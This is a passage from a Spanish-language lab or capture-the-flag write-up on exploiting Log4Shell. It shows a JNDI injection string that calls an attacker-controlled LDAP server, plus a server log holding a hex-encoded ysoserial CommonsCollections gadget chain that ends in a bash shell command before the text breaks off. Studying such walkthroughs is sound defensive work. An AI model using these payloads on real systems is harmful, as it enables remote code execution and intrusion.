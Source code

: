 Estando nuestro server con ldap ya activo procedemos a montar el Payload OS Injecction a ejecutar con la direccion que nos pone ahi por LDAP

```bash
 ${jndi:ldap://10.10.16.7:1389/ez03wo} y lo injectamos en el mismo campo que antes y recibimos la session por abajo.
```
Al injectar el comando anterior en el campo comentado vemos como se envia nuestro Payload
```bash
---------------------------Server Log----------------------------
2021-12-29 18:27:42 [JETTYSERVER]>> Listening on 10.10.16.7:8180
2021-12-29 18:27:42 [RMISERVER]  >> Listening on 10.10.16.7:1099
2021-12-29 18:27:42 [LDAPSERVER] >> Listening on 0.0.0.0:1389
2021-12-29 18:32:21 [LDAPSERVER] >> Send LDAP object with serialized payload: ACED00057372002E6A617661782E6D616E6167656D656E742E42616441747472696
275746556616C7565457870457863657074696F6ED4E7DAAB632D46400200014C000376616C7400124C6A6176612F6C616E672F4F626A6563743B787200136A6176612E6C616E672E
457863657074696F6ED0FD1F3E1A3B1CC4020000787200136A6176612E6C616E672E5468726F7761626C65D5C635273977B8CB0300044C000563617573657400154C6A6176612F6C6
16E672F5468726F7761626C653B4C000D64657461696C4D6573736167657400124C6A6176612F6C616E672F537472696E673B5B000A737461636B547261636574001E5B4C6A617661
2F6C616E672F537461636B5472616365456C656D656E743B4C001473757070726573736564457863657074696F6E737400104C6A6176612F7574696C2F4C6973743B787071007E000
8707572001E5B4C6A6176612E6C616E672E537461636B5472616365456C656D656E743B02462A3C3CFD22390200007870000000037372001B6A6176612E6C616E672E537461636B54
72616365456C656D656E746109C59A2636DD85020008420006666F726D617449000A6C696E654E756D6265724C000F636C6173734C6F616465724E616D6571007E00054C000E64656
36C6172696E67436C61737371007E00054C000866696C654E616D6571007E00054C000A6D6574686F644E616D6571007E00054C000A6D6F64756C654E616D6571007E00054C000D6D
6F64756C6556657273696F6E71007E00057870010000004A74000361707074002679736F73657269616C2E7061796C6F6164732E436F6D6D6F6E73436F6C6C656374696F6E7335740
018436F6D6D6F6E73436F6C6C656374696F6E73352E6A6176617400096765744F626A65637470707371007E000B010000002C71007E000D71007E000E71007E000F71007E00107070
7371007E000B010000003171007E000D74001979736F73657269616C2E47656E65726174655061796C6F616474001447656E65726174655061796C6F61642E6A6176617400046D616
96E70707372001F6A6176612E7574696C2E436F6C6C656374696F6E7324456D7074794C6973747AB817B43CA79EDE020000787078737200346F72672E6170616368652E636F6D6D6F
6E732E636F6C6C656374696F6E732E6B657976616C75652E546965644D6170456E7472798AADD29B39C11FDB0200024C00036B657971007E00014C00036D617074000F4C6A6176612
F7574696C2F4D61703B7870740003666F6F7372002A6F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E732E6D61702E4C617A794D61706EE594829E79109403
00014C0007666163746F727974002C4C6F72672F6170616368652F636F6D6D6F6E732F636F6C6C656374696F6E732F5472616E73666F726D65723B78707372003A6F72672E6170616
368652E636F6D6D6F6E732E636F6C6C656374696F6E732E66756E63746F72732E436861696E65645472616E73666F726D657230C797EC287A97040200015B000D695472616E73666F
726D65727374002D5B4C6F72672F6170616368652F636F6D6D6F6E732F636F6C6C656374696F6E732F5472616E73666F726D65723B78707572002D5B4C6F72672E6170616368652E6
36F6D6D6F6E732E636F6C6C656374696F6E732E5472616E73666F726D65723BBD562AF1D83418990200007870000000057372003B6F72672E6170616368652E636F6D6D6F6E732E636
F6C6C656374696F6E732E66756E63746F72732E436F6E7374616E745472616E73666F726D6572587690114102B1940200014C000969436F6E7374616E7471007E0001787076720011
6A6176612E6C616E672E52756E74696D65000000000000000000000078707372003A6F72672E6170616368652E636F6D6D6F6E732E636F6C6C656374696F6E732E66756E63746F7273
2E496E766F6B65725472616E73666F726D657287E8FF6B7B7CCE380200035B000569417267737400135B4C6A6176612F6C616E672F4F626A6563743B4C000B694D6574686F644E616D6
571007E00055B000B69506172616D54797065737400125B4C6A6176612F6C616E672F436C6173733B7870757200135B4C6A6176612E6C616E672E4F626A6563743B90CE589F107329
6C02000078700000000274000A67657452756E74696D65757200125B4C6A6176612E6C616E672E436C6173733BAB16D7AECBCD5A990200007870000000007400096765744D6574686F
647571007E002F00000002767200106A6176612E6C616E672E537472696E67A0F0A4387A3BB34202000078707671007E002F7371007E00287571007E002C00000002707571007E00
2C00000000740006696E766F6B657571007E002F00000002767200106A6176612E6C616E672E4F626A656374000000000000000000000078707671007E002C7371007E00287571007
E002C00000001757200135B4C6A6176612E6C616E672E537472696E673BADD256E7E91D7B470200007870000000037400092F62696E2F626173687400022D6374002762617368202
```